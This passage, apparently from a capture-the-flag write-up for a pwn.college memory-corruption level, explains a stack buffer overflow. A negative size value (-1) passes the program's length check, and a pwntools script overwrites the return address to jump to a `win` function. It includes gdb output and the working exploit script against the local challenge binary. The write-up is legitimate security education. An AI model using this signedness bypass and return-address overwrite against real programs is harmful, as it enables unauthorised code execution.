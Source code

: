 * Again, we have to overwrite the return address in order to divert control flow.

```
Buffer:                           Random bytes:                     Return address:

00 00 00 00 00 00 00 00                                00           87 2a 40 00 00 00 00 00
00 00 00 00 00 00 00 00           d0 11 40 00 00 00 00 00
00 00 00 00 00 00 00 00           f0 83 39 17 fd 7f 00 00
00 00 00 00 00 00 00 00           70 94 39 17 fd 7f 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00
```

* Let's find the address of the `win` function.

{% code fullWidth="false" %}
```
(gdb) disassemble win

; -- snip --
Dump of assembler code for function win:
   0x00000000004022cb <+0>:     endbr64 
; -- snip --
```
{% endcode %}

* The program does not want us to overflow the buffer, so it tries to ensure that the payload size we set is lower than the buffer size.
* However we can use the concept of [two's compliment](https://en.wikipedia.org/wiki/Two's\_complement) to our advantage.
* The two's-compliment of `-1` is `0xffffffff`. If we enter the payload size to be `-1`, the program will interpret it as an unsigned `4294967295` instead of a signed `-1`.
* And thus, we can pass the check.
* Let's craft our payload:

```python
from pwn import *

padding = b'A' * 88
payload = padding + p64(0x00000000004022cb)

p = process('/challenge/babymem_level4.0')
p.recvuntil('size:')
p.sendline('-1')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```



## level 4.1
